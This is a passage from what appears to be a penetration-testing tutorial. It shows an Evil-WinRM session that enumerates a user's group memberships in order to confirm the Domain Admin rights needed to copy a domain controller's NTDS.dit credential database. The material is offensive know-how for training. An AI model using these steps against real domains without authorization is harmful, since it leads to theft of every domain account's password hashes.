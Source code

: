 ```shell-session
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

### **Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

